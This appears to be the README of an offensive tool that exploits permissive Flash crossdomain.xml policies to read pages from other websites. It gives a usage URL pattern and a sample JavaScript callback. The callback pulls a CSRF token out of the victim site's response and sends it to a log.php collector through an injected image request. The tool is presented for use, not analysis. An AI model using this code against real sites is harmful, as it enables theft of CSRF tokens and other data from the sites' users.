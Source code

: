 # crossdomain
Crossdomain exploiting - insecure flash file documents

### How to use this?

```
index.php#http://websitewiththeinsecurecrossdomain.xml/pageyouwant
```

### How do I handle the data?

In `crossdomain.js` there is a callback function, this function receives all the content sended through the flash file that loads the data from the remote website. To exploit it further you can change the crossdomain.callback function to handle the data.

######As preview:
```
'callback': function (data) {
  console.log(data);
}
```

Can become something like:

```
'callback': function (data) {
  var response = data.match('csrf value=(.*)>');
  if(response != null) {
    var img = document.createElement("img");
    img.src = "log.php?response=" + escape(JSON.parse(response));
    
    var src = document.getElementById("header");
    src.appendChild(img);
  }
}
```
